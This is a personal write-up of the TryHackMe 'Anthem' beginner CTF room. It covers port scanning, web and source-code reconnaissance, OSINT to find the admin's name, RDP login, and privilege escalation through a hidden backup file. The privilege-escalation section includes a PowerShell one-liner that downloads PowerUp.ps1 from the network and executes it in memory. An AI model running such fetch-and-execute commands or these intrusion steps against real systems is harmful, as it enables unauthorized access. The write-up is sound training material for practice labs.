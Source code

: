 #+TITLE: THM: Anthem
#+DATE: <2023-10-21 10:30>
#+DESCRIPTION: A beginner targeted ctf
#+FILETAGS:  tryhackme ctf

After a long time of not messing around with any CTFs, I decided to
give [[https://tryhackme.com/room/anthem][anthem]] a shot and see how far I could go on my own. 

* Reconnaissance

** Port Scanning
First things first, let's try to get some information about the target
machine, checking all ports and saving the output for future use:
#+NAME: NMAP Scan
#+begin_src bash
sudo nmap -sSV -p- 10.10.201.121 -oA nmap.out -T4
#+end_src

#+NAME: NMAP Output
#+begin_example
Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-21 08:34 BST
Nmap scan report for ip-10-10-201-121.eu-west-1.compute.internal (10.10.201.121)
Host is up (0.00045s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
MAC Address: 02:20:2B:0A:0A:AD (Unknown)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 458.11 seconds
#+end_example

Checking the output we see that there are two services worth noting:
- A web server at 80
- An RDP server at 3389 (the protocol was not known to me, but
  googling it gives us this answer)

Getting some more information from the web server can not hurt.

** Web Analysis
I always like to use burp suite (or zap for that matter), when I first
start interacting with a website. It saves me the trouble of manually
checking the HTML contents of each page (in case I want to do it), and
also maps quite nicely the target host.

- [X] Launch BurpSuite
- [X] Properly set FoxyProxy to burp, allowing us to intercept the traffic
- [X] Turn intercept off
- [X] Visit target machine's website
- [X] Go to Burp/Target, set the given machine as in scope, limiting
  what Burp stores, making for a relatively clutter-free environment
- [X] Start moving

#+begin_note
Using https://github.com/hakluke/hakrawler while passing all the
traffic through Burp's proxy might also be beneficial, but at this
point I like manually checking every page.
#+end_note

*** Random Findings
While randomly clicking everywhere I could find, I got to the page of
a writer (Jane Doe), which included a flag at a suspiciously obvious
location. 

#+caption: A flag :P
#+DOWNLOADED: screenshot @ 2023-10-21 10:50:49
[[file:Reconnaissance/20231021_105049_screenshot.png]]


*** Robots.txt, Security.txt, Sitemap.xml
Visiting those files is a must when checking websites (even though the
writer might occasionally forget about them), and ~robots.txt~ did not
disappoint. Aside from giving as a direct /flag/, it showed that the
target host uses the Umbraco CMS, and it's sign-in page is also revealed. 

#+caption: Robots.txt contents
#+DOWNLOADED: screenshot @ 2023-10-21 10:52:17
[[file:Reconnaissance/20231021_105217_screenshot.png]]

#+caption: Umbraco Sign-in Page
#+DOWNLOADED: screenshot @ 2023-10-21 10:55:56
[[file:Reconnaissance/20231021_105556_screenshot.png]]

Sadly, however, ~security.txt~ and ~sitemap.xml~ turned out to be empty,
lacking any information.

*** Finding the administrator
At this point we have a lot of information about the target system,
yet no information on the administrator (other than the contents of an
article informing us of his passing), so we need to dig a little bit more.

I got relatively stuck here, so I started searching through the pages'
HTML hoping that a comment might reveal their identity. (As you can
see in the images below, after thinking of the possibility that a flag
exists hidden there, I searched with 'thm', to make sure I did not
miss anything).

#+caption: Another random flag found during this stage
#+DOWNLOADED: screenshot @ 2023-10-21 10:59:32
[[file:Reconnaissance/20231021_105932_screenshot.png]]

#+caption: Another random flag
#+DOWNLOADED: screenshot @ 2023-10-21 11:00:55
[[file:Reconnaissance/20231021_110055_screenshot.png]]

After skimming through the pages and realizing that the information I
wanted is not there, I tried the default credentials on the Umbraco
web portal, hoping that (since its a common misconfiguration) no one
had bothered changing them:

#+caption: No luck
#+DOWNLOADED: screenshot @ 2023-10-21 11:05:56
[[file:Reconnaissance/20231021_110556_screenshot.png]]

At this point I seriously considered bruteforcing Jane Doe's RDP
credentials (knowing that her email is ~jd@anthem.com~). I did not,
though, due to this statement in the problem's definition:
#+begin_quote
In this room, you don't need to brute force any login page. Just your preferred browser and Remote Desktop.
#+end_quote

Since there were no input fields, nor parameters to check for
injections and the website seemed like a static one, performing OSINT
for the administrator was the only logical next step:
- I thought I had seen the article "written for him" somewhere, so I
  googled it, and turns out, that in its complete form, refers to
  'Solomon Grundy', which (after checking with THM's answer), turns
  out to be the admin's name
- Their email, asked elsewhere, is easy enough to derive knowing that:
  Jane Doe translates to jd.

* Trying RDP out
We now know the administrator's username, and we have a potential
password, so checking RDP out seems like a good choice: it was.

#+caption: Got the root flag
#+DOWNLOADED: screenshot @ 2023-10-21 11:20:03
[[file:Trying_RDP_out/20231021_112003_screenshot.png]]


#+begin_note
After answering the questions on THM I realized that I had missed one,
presumably hidden within the source code, nice 
#+end_note

#+caption: Completing the last web flag
#+DOWNLOADED: screenshot @ 2023-10-21 11:22:23
[[file:Trying_RDP_out/20231021_112223_screenshot.png]]

* Privilege Escalation
Having limited experience with windows, I relied heavily on
[[https://swisskyrepo.github.io/][PayloadsAllTheThings]], testing this first:

#+NAME: Powersploit's PowerUP
#+begin_src powershell
bypass IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1'); 
#+end_src

It did not seem to work, and figuring that getting admin rights would
be much simpler since the hint was "it is hidden", I decided to
manually check some of the most common folders I had access to:
- In Documents there was an RDP file hidden, getting my hopes up,
  before I realized that there were no parameters saved on it, meaning
  that it was useless.
- After checking the rest of the hard drive, I saw a hidden folder
  titled backup. Promising

Inside ~backup~ there was a file called restore, which I had no
permission to read, but seeing that I was the owner, I edited its
properties so that I could open it properly:

#+caption: Got a password-like string
#+DOWNLOADED: screenshot @ 2023-10-21 11:39:02
[[file:Privilege_Escalation/20231021_113902_screenshot.png]]

#+begin_quote
Administrator:newlyFoundString
#+end_quote
Seems like a good combination to choose, so I try to view
~Administrator~'s home folder:

#+caption: Final Flag
#+DOWNLOADED: screenshot @ 2023-10-21 11:42:59
[[file:Privilege_Escalation/20231021_114259_screenshot.png]]

'twas good.
